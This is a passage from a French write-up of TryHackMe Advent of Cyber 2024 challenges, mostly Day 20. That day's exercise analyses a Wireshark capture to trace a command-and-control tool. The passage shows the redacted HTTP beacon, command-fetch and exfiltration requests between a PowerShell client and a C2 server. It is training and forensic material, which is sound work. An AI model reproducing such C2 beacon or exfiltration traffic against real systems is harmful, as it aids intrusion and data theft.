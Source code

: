 Nous parvenons à tromper la vigilance du dernier pingouin qui nous fourni le dernier flag de ce défi.

{% include elements/figure_spoil.html image="images/THM/Advent2024/Capture_ecran_2024-12-19_third_flag.png" caption="Troisième et dernier flag" %}

## Jour 20 : Si tu prononces ne serait-ce qu'un seul paquet

![Traffic analysis](https://img.shields.io/badge/Traffic%20analysis-314267?logo=tryhackme)

![Jour 20](https://tryhackme-images.s3.amazonaws.com/user-uploads/63588b5ef586912c7d03c4f0/room-content/63588b5ef586912c7d03c4f0-1731076103117.png)

Ce défi consiste à suivre la propagation d'un outil de {% include dictionary.html word="C2" %} en analysant un enregistrement [Wireshark](https://www.wireshark.org/).

Nous pouvons apercevoir un paquet {% include dictionary.html word="HTTP" %} semblant être le point de départ de la compromission (`POST /initial`). En suivant ce paquet numéro **440**, nous y observons l'adresse IP du serveur C2, et confirmation de la mise en place d'une communication.

```http
POST /initial HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17763.1490
Content-Type: text/plain
Host: [...expurgé...]:8080
Content-Length: 14
Connection: Keep-Alive

[...expurgé...]
HTTP/1.0 200 OK
Server: BaseHTTP/0.6 Python/3.8.10
Date: Thu, 17 Oct 2024 09:47:04 GMT

Perfect!
```

Suivons à présent le flux du paquet {% include dictionary.html word="HTTP" %} **457** (`GET /command`) pour découvrir la première commande exécutée par le serveur C2.

```http
GET /command HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17763.1490
Host: [...expurgé...]:8080
Connection: Keep-Alive

HTTP/1.0 200 OK
Server: BaseHTTP/0.6 Python/3.8.10
Date: Thu, 17 Oct 2024 09:47:04 GMT
Content-Type: text/plain

[...expurgé...]
```

Le paquet {% include dictionary.html word="HTTP" %} **476** (`POST /exfiltrate`) nous indique qu'un fichier a été exfiltré, et nous avons des informations sur le chiffrement utilisé dans le processus.
